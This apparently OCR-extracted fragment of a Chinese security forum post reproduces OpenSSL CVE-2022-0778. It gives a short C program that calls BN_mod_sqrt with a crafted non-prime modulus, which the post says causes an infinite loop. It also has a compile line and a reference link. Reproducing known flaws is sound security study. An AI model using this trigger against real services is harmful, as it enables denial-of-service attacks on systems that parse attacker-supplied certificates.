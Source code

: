 测试

```c
#include <openssl/bn.h>

int main() {
    BN_CTX *ctx;
    ctx = BN_CTX_new();
    BIGNUM *res, *a, *p;
    BN_CTX_start(ctx);
    res = BN_CTX_get(ctx);
    a = BN_CTX_get(ctx);
    p = BN_CTX_get(ctx);

    BN_dec2bn(&p, "2329");
    BN_dec2bn(&a, "2328");

    printf("p = %s\n", BN_bn2dec(p));
    printf("a = %s\n", BN_bn2dec(a));

    BIGNUM* check = BN_mod_sqrt(res, a, p, ctx);
    printf("%s\n", BN_bn2dec(res));

    return 0;
}
gcc -0 xxx.c t -lcrypto
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-b26b0e3e965f6b510190c0b997e2a7eea008d22e.png)  
陷入死循环，触发漏洞

参考：  
[OpenSSL CVE-2022-0778漏洞问题复现与非法证书构造 | CatBro's Blog (catbro666.github.io)](https://catbro666.github.io/posts/83951100/#more)